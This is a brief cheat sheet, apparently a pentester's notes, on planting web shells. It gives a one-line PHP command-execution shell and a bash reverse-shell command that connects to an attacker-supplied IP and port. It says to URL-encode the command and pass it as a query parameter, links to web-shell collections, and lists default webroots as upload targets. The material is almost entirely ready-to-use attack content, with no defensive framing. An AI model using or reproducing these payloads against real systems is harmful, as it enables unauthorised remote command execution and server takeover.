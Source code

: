 ```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Open reverse shell:
```shell
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```
URL encode it and send as cmd query or post parameter

**Collection of webshells laudanum**:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
`cp /usr/share/laudanum/... shellfile`

`/opt/useful/seclists/Web-Shells/

https://github.com/Arrexel/phpbash

Where to upload web shell:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |
